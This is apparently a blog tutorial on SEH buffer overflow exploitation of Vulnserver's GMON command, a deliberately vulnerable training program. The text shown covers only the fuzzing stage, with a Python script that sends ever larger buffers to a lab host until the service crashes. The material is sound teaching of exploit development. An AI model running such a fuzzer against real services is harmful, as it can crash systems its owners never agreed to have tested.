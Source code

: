 ```yaml
---
title: "Vulnserver SEH Overflow"
date: "2020-04-11"
author: frosty
categories:
  - "blog"
tags:
  - "buffer-overflows"
  - "exploitation"
  - "osce"
---
```


As I'm gaining interest in exploit development, I decided to try and learn structured exception handler (SEH) buffer overflow exploits. For this demonstration, I'll be exploiting Vulnserver's GMON command on a 32-bit Windows 7 machine with Immunity Debugger.

A buffer overflow (BOF) is an exploit occurs when the user is able to control the execution flow of a program. In an SEH type of BOF, the user should be able to manipulate the exception handler location pointer to lead the program back to their payload.

* * *

## Fuzzing the application

We cannot start without knowing how many bytes we need to create an exception in the program. To do this we use a simple python script which sends a buffer of bytes, increasing the length of bytes being sent if the application responds to our request. When Vulnserver stops responding, we know that our buffer has caused an exception. We can also confirm this by attaching Vulnserver to Immunity Debugger.

```py
#!/usr/bin/python
import sys, socket
from time import sleep

ip = "10.21.1.15"
port = 9999

buffer = "A" * 100

while True:
    try:
        command = "GMON"
        print "[+] Sending buffer of %s bytes to %s" % (str(len(buffer)), command)

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip, port))
        s.recv(1024)
        s.send(('GMON /.:/' + buffer))
        s.close()

        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print "\n[-] Fuzzing crashed at %s bytes" % str(len(buffer))
        sys.exit()
```
